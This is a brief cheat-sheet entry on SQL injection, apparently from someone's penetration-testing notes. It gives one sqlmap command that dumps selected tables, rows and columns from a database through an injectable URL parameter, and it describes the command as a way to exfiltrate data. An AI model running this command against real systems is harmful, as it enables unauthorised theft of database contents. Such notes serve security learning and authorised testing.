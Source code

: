 #SQL_Injection 

---

- To exfiltrate data from a DB we use the following command:
```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T {table} -D {DB} --start={starting_row} --stop={ending_row} -C {col1,col2}
```
